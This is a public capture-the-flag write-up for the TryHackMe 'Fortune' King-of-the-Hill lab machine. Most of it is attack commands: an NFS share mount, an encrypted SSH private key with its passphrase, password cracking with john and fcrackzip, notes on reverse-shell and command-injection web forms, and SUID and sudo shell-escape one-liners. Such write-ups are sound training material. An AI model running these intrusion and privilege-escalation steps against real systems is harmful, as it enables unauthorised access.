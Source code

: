 # Fortune THM Public Writeup
#### Important Machine related information

#### Map
```lua
nmap service overview


-- 3333 is the netcat zip download, avoidable step
```


hermes - **Note this key and its passphrase is random every time**:
- using showmount -e reveals a share. mounting this with: `mount -t nfs fortune.thm:/srv/nfs /tmp/nfs -o nolock` can find a `hermes_ssh` file
- this can be decoded using vignere with key n, then broken with ssh2john, john and rockyou, and will provide ssh access as hermes

#### Default Credentials
```
fortuna : MGE0OTJiM2  &&  ZGI4NjI0Mz   # test! 

# Aquinas: not sure if this random
# Hermes r_sa key:
// passwd: cuteko

-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,57145A8D54A46E26334807885A43DA74

MBpsTtnjX14/G2VnexI+K4WFalKGoTm1/OHobQl+3EPZVY4LU4khWu2JABjv/EXv
cct34TxEu2kw7tYZmdlkosQANLdcLkryRZO8wnQmTmh/nAA9JOOsDNXDYUUteurf
j1UD3XouSNdygA7lDyGJPVqHPbkCOueG27Vryp5660kPpXmyEU7kOMMUpNzncR8r
yd6cQQDSd/ydzAhGpwdXkA4oxdX1qDCWz6Qc7hlMQbAUokGIsqwuRE1smloSwLln
dzTS6eXSq15XSM1Qcs4MVhyY9KX7nWN+8CfUrPRi1+msUlfGyhMacV6kHkl7aAQk
J58RsVKxcpkc8JkOHle//On1ZJ6noTOcSB1czMbhemH3n21FgreSOs8vxUqlX9x7
gVnjEbk7LbFBCObUhVUii3GURlpP1ro4Hv34VvOJl1MKtCOuI0kMyqYjTtFnnVLZ
zBKNoKOlzjM2FTZ2a2ziNAI1OEcO6KZRSPnSGZ0v0ra7GdP9Gj9HHGiIcZbwhex2
+6HGR87WtUWzEG0OCkiR38GhBrJ+byDGYbbAClJu/iun/unTApH7KzZTguOP8ICk
6Pinw3BsKcZbxhAQtjPNhzO/J7c+eMjUtf4yXqz3V0TtjujsluAv05IuTZbjHnCA
un7avtJFRXUVCkPfrEMIN00wOezrNSy2WMF5YzzAuZes4bHbPx2l6neDp6VmfVkg
cK6hZswiEks5MyMLftcLb80fg6hXwy4ZO51Cb4CKEwGU15C1cXG7vglqKlgLscVk
DAg8ySZwwAdffefxhNtiMkxDKu3BWU2onMyjLH7F57DM/gyZm4jGb7RXbvijva/o
PXZCIc0+nWbEAYYV/gG7u09cPWLQmyIaWKaLDxKMXyUW/8nfhIGo2LnACaMIAmZY
bqa9BV1Pkc6zc0hyDqRKa+b71WH5PWXvXETRs2BJcrKyAowiyd1N+EjYi+vzCD6D
gPZXi2wDvEQldNK58NY7IH2Jq1K6+K/6PeRdY2SEp6lQIijBogwFR4AxyNEt/jTe
LEA9ZpJid2sBO+O+SuPDMHfyl/TPQXB0kAAm0GuSmtxqOSrOYX3xPxJ7/+5ioDJZ
TqzNv+uD311ZPuWrKOApc27ZNu7x0Hbd6ATUaqTCkT1eCu4dFPvAROf2DQ8X0Fnx
kui1kvxEc2zU8QqLCizYxZnOLfhF6rtRLfM+zyTA96imlYTtDJMkwgAQU/gxPKuC
PEA6T08FD6TMhJYnjODKmYpYyj21CyKioqmIBR+b4okwYkAQ8WaLZVzCq4C8hoRm
RPCX49MyO6xTdF0mi+2Lsnq+sGJFaeThK5X4J+DGeKmN80cJ7lg0csKmaOTrWX3E
nv/T8D/SDbwybcSj7lISsZAagxaL/dpIIGkP87ZXsRAN57lGZ8gH1n4zMYACH1rt
fNRrsHGlYsqQGvhCtgM9iUZwJALAkqy71XXXy9e+a31QkmG8kRhBiQTex+GZRv6O
gX0bg5csBqJMyJtMNm35GRhoxOmQb0yzKJW/B9uLA3yc/qEOJuu+BjcNx9YrqhoE
h2ZlzchBizy6lU08RI/Py0OGB6YfTWTXM89AENH3sttMI765+CZaypRUBDWDQSrF
-----END RSA PRIVATE KEY-----
```

#### Network Services to Foothold
```
nc fortune.thm 3333 | base64 -d > test.zip
unzip test.zip
zip2john test.zip > hash.txt
john hash.txt
unzip test.zip
cat creds.txt

curl fortune.thm:3333 | base64 -d > f.zip
/opt/john/zip2john f.zip > fj
john --wordlist=rockyou.txt fj
echo PASS | unzip f.zip
cat creds.txt


wget -qO - "$IP:3333" | base64 -d > file.zip
PASSWORD=$(fcrackzip -v -u -D -p "$Wordlist" file.zip | grep -o '== [a-zA-Z0-9]*$' | awk '{print $2}')
unzip -P "$PASSWORD" file.zip 
```

`cat file.txt | base64 -d > test.zip; unzip -P (fcrackzip -v -u -D -p $location/rockyou.txt test.zip | grep "pw" |awk '{print $5}') test.zip; cat creds.`


www-data 1:
- the website on 80 has an ip and port field. this will on a random change connect back as a reverse shell, if tried multiple times
- as the form fields are randomised, it must be done manually, but is not difficult.
- connects back as www-data

www-data 2:
- under port 80 `/_styles` is another website with straight command execution as www-data with the `luck` querystring param
- it has a 1 in 4 chance of running, but will also block any use of the text `nc`
#### Privilege Escalation

```bash
find . -exec /bin/sh -p \; -quit

ionice /bin/sh -p

/usr/bin/nice /bin/sh -p

xargs -a /dev/null sh -p

# Is random so needs lots of tries
python -c 'import pty; pty.spawn("/home/lucky_shell")' 

# Machinh //execute with command:
# as fortuna sudo pico 
sudo pico
^R^X
reset; sh 1>&0 2>&0
# Alternative instruction include - holmes
sudo pico /etc/sudoers


# kairos and python repl: to get to kairos use suid on find: `find . -exec /bin/sh -p \; -quit
python
import pty;
pty.spawn("/bin/bash");
```

#### Flags
```bash
/media/darts
/srv/blackjack
/lib/checkers
/usr/games/flag
/usr/local/games/flag
/geama/flag
/home/fortuna/Desktop/chess (thanks to mug3njutsu on discord for this)
```

#### References

https://qvipin.medium.com/fortune-koth-writeup-5f4684af4d45
https://github.com/Prim1Tive/CTFwriteups/blob/master/TryHackMe/KOTH/Fortune.md
https://medium.com/@Ankit.0101/koth-fortuna-walkthrough-tryhackme-by-ankit-kumar-astersec-808cc61749e2
https://github.com/holmes-py/King-of-the-hill?tab=readme-ov-file#machine-name-fortune
https://github.com/ChrisPritchard/ctf-writeups/blob/master/tryhackme-koth/koth-fortune.md